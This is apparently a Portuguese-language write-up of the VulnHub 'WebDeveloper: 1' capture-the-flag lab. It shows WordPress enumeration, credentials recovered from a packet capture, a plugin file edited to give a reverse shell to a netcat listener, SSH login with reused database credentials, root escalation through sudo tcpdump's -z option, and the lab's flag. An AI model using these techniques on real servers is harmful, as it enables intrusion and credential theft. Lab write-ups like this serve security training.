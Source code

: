 # WebDeveloper: 1

Location: [vulnhub.com](vulnhub.com)  
Dificuldade: Easy

## Identificação e Enumeração
O primeiro passo foi identificar o IP da VM:
```bash
\# netdiscover -r 192.168.0.1/24
```
O IP identificado foi 192.168.0.108. Fazendo um portscan simples com o nmap podemos ver que as portas 22 e 80 estão abertas, rodando SSH e HTTP, respectivamente:
```bash
\# nmap -sV -sT -p- 192.168.0.108
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Na porta 80 está rodando um blog feito em wordpress, sem muitas informações úteis à vista, mas executando o wpscan - que já mostra versões dos plugins e temas, vulnerabilidades e usuários - obtém-se alguns dados:
```bash 
$ wpscan --url http://192.168.0.108 -e ap,u
(...)
[!] 7 vulnerabilities identified:
(...)
[+] Enumerating All Plugins

[i] No plugins Found.

[+] Enumerating Users
 Brute Forcing Author IDs - Time: 00:00:00 <==> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] webdeveloper
(...)
``` 
Algumas vulnerabilidades e um usuário encontrado, porém sem senha, continuando a enumeração com dirb:
```bash
$ dirb http://192.168.0.108 /usr/share/dirb/wordlists/big.txt

==> DIRECTORY: http://192.168.0.108/ipdata/                                
+ http://192.168.0.108/server-status (CODE:403|SIZE:301)                   
==> DIRECTORY: http://192.168.0.108/wp-admin/                              
==> DIRECTORY: http://192.168.0.108/wp-content/                            
==> DIRECTORY: http://192.168.0.108/wp-includes/
```
o diretório /ipdata/ e mais alguns diretórios padrões do wordpress, se acessarmos o diretório /ipdata/ conseguimos encontrar um arquivo chamado analyze.cap
![Foto do .cap](img/analyzecap.png)

Como é uma captura de pacotes, podemos olhar o tráfego com wireshark e procurar alguma informação importante. Como a informação que queria era uma senha ou algo que levasse a senha, organizei os pacotes por protocolo e vi que foi feito uma requisição via POST em /wp-login.php 
![Pacote com a informação](img/pacote.png)
Olhando os detalhes dessa requisição vemos os parâmetros passados, que são justamente usuario e senha.
![senha e login](img/senha.png)

## Exploração
A senha está encodada, pois contém caracteres especiais, mas é facilmente decodada em qualquer ferramenta de urlencode na internet, depois de decodificá-la temos que encontrar um meio de ter acesso a uma webshell. Olhando alguns arquivos, vi que eu poderia editar a página index.php do plugin akismet, esse plugin estava desativado, então depois editar a página era necessário ativá-la na aba Plugin do wordpress:
Obs.: Substituir o IP pelo seu
![Foto akismet](img/indexakismet.png)

E no seu computador abrir a porta 1234
```bash
$ nc -vvnlp 1234
```

Os plugins do wordpress ficam na url: http://192.168.0.108/wp-content/plugins/
Então para acessar a index.php do akismet, basta acessar a página:
http://192.168.0.108/wp-content/plugins/akismet/index.php
Ao acessar você deve ganhar uma shell com o bash, tendo acesso aos arquivos do server
```bash
$ nc -vvnlp 1234
Listening on any address 1234 (search-agent)
Connection from 192.168.0.108:50532
bash: cannot set terminal process group (1131): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webdeveloper:/var/www/html/wp-content/plugins/akismet$
```
Entrando na /home/webdeveloper não tem nenhum arquivo importante, mas voltando a estrutura do wordpress, se acessarmos o arquivo wp-config.php podemos ver a senha e login do banco de dados

![login db](img/dbfoto.png)

Se tentarmos acessar o banco de dados com essa shell, obteremos um erro, então resolvi tentar essas mesmas credenciais para fazer login via SSH
```bash
$ ssh webdeveloper@192.168.0.108
webdeveloper@192.168.0.108\'s password:
webdeveloper@webdeveloper:~$ 
```
E temos o nosso login ssh, mas ainda sem encontrar a flag, pois ela está em /root e ainda estamos logados com o usuário 'webdeveloper'.

## PrivEsc
Rodei o LinEnum que não me deu muitas informações importantes, então vi quais programas eu poderia executar de acordo com o sudoers
```bash
$ sudo -l
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
```
Sabendo que o tcpdump pode nos permitir escalar privilégios, procurei formas de fazê-lo e encontrei isso [aqui](https://github.com/xapax/security/blob/master/privilege_escalation_-_linux.md)

então segui os passos:
```bash
$ echo $'id\ncat /root/flag.txt' > /tmp/.test
$ chmod +x /tmp/.test
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
uid=0(root) gid=0(root) groups=0(root)
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
```
E aí está a flag!!
